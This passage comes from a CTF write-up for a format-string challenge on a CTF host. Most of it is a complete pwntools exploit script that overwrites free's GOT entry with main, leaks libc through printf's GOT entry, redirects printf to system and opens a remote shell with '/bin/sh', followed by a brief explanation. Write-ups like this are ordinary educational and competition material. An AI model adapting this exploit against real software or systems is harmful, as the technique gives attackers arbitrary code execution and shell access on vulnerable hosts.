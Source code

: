 ```bash
```



### Exploit 2: GOT leak

If leaking from the stack isn't your style or perhaps not working for you, you can leak directly from the GOT:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./hello')
context.update(arch='i386',os='linux')

#p = process(binary.path)
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('chall.csivit.com', 30046)
libc = ELF('libc-database/db/libc6-i386_2.23-0ubuntu11.2_amd64.so')

offset = 1

# 1st stage: free -> main for inf. 'free' rides
p.sendlineafter('name?\n', fmtstr_payload(offset,{binary.got.free:binary.sym.main}))

# 2nd stage: leak libc address
payload  = b'%' + str(offset+2).encode().rjust(2,b'0') + b'$004s'
payload += p32(binary.got.printf)
p.sendlineafter('name?\n', payload)
p.recvuntil('Hello, ')
_ = p.recv(4).lstrip()
printf = u32(_ + (4-len(_))*b'\x00')
log.info('printf ' + hex(printf))
baselibc = printf - libc.sym.printf
log.info('baselibc ' + hex(baselibc))
libc.address = baselibc

# 3nd stage, printf -> system
p.sendlineafter('name?\n', fmtstr_payload(offset,{binary.got.printf:libc.sym.system}))

# 4rd stage, ask for a shell
p.sendlineafter('name?\n', '/bin/sh')
p.recvuntil('not found') # now that printf is system, system('Hello, ') will emit 'not found'

p.interactive()
```

This is the same as the previous exploit except that the GOT overwrite `free` -> `main` is isolated as a discrete step with the libc leak as a new discrete step.  The steps can be combined, but its a bit harder--example [here](https://github.com/datajerk/ctf-write-ups/blob/master/redpwnctf2020/dead-canary/README.md#option-1a--option-1-using-s-to-leak-libc) of how to do that.
